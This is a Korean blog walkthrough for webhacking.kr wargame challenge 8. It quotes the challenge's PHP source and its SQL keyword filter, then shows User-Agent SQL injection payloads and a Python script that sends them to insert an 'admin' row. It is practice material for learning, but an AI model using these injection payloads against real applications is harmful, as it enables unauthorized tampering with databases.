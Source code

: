 ```yaml
---
title: "webhacking.kr 8번 문제 풀이"
excerpt_separator: "<!--more-->"
categories:
  - webhacking
tags:
  - webhacking
  - wargame
classes: wide
---
```


[8번 바로가기](http://webhacking.kr/challenge/web/web-08/)

문제 페이지에 들어가면 아래와 같은 화면이 나온다. http 헤더의 user-agent를 조작하는 문제라는 느낌을 준다.

![8번](/img/8번_1.JPG)

새로 고침을 하면 done! 뒤의 숫자가 1 증가한다. 70번을 다 채우면 뭔가 있을 것 같다.
소스를 보면 index.phps에 들어가라는 힌트가 있다.


```php
$agent=getenv("HTTP_USER_AGENT");
$ip=$_SERVER[REMOTE_ADDR];

$agent=trim($agent);

$agent=str_replace(".","_",$agent);
$agent=str_replace("/","_",$agent);

$pat="/\/|\*|union|char|ascii|select|out|infor|schema|columns|sub|-|\+|\||!|update|del|drop|from|where|order|by|asc|desc|lv|board|\([0-9]|sys|pass|\.|like|and|\'\'|sub/";

$agent=strtolower($agent);

if(preg_match($pat,$agent)) exit("Access Denied!");

$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);
$_SERVER[HTTP_USER_AGENT]=str_replace("\"","",$_SERVER[HTTP_USER_AGENT]);

$count_ck=@mysql_fetch_array(mysql_query("select count(id) from lv0"));
if($count_ck[0]>=70) { @mysql_query("delete from lv0"); }


$q=@mysql_query("select id from lv0 where agent='$_SERVER[HTTP_USER_AGENT]'");

$ck=@mysql_fetch_array($q);

if($ck)
{
echo("hi <b>$ck[0]</b><p>");
if($ck[0]=="admin")

{
@solve();
@mysql_query("delete from lv0");
}


}

if(!$ck)
{
$q=@mysql_query("insert into lv0(agent,ip,id) values('$agent','$ip','guest')") or die("query error");
echo("<br><br>done!  ($count_ck[0]/70)");
}
```

http 헤더의 user-agent 필드에 있는 값에서 sqli에 사용되는 여러 문자를 필터링하고 쿼리를 수행한다.
먼저 lv0 테이블에서 id 컬럼에 값이 몇개 있는지 가져오는데, 이게 70개가 넘어가면 lv0 테이블을 비운다.
그리고 lv0 테이블에서 user-agent에 해당하는 레코드의 id 값을 가져온다. 여기서 첫번째 값이 "admin" 이면 문제가 풀린다.
그 밑에 보면 user-agent에 해당하는 값이 없으면 새로 입력하는데, 이때 user-agent에 넣은 값이 쿼리에 사용된다. user-agent에 쿼리를 넣어 문제 id에 admin을 삽입하면 된다.


일단 '$pat'에서 싱글쿼터를 필터링하지 않는다. select 문에서는 다시 `$_SERVER[HTTP_USER_AGENT]=str_replace("'","",$_SERVER[HTTP_USER_AGENT]);`에서 싱글쿼터를 필터링하는데,
insert문에서는 `$agent`를 그대로 사용하기 때문에 싱글쿼터를 필터링하지 않는다.
`insert into lv0(agent,ip,id) values('$agent','$ip','guest');`에서 agent에 `hihi', '0', 'admin')#` 이런식으로 쿼리를 넣거나, `a1','i1','admin'), ('a2` 이렇게 주석을 사용 안하고
한 번에 여러 레코드를 삽입하는 쿼리를 만들면 된다.


```python
import urllib.request

agent1 = "hihi', '0', 'admin')#'"
agent2 = "hihi"
header = {'User-Agent':agent1, 'Cookie':'PHPSESSID=본인세션쿠키값'}

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)

header['User-Agent'] = agent2

req = urllib.request.Request("http://webhacking.kr/challenge/web/web-08/index.php", headers=header)
data = urllib.request.urlopen(req).read()
data = data.decode('UTF-8')

print(data)
```

![8번](/img/8번_2.JPG)
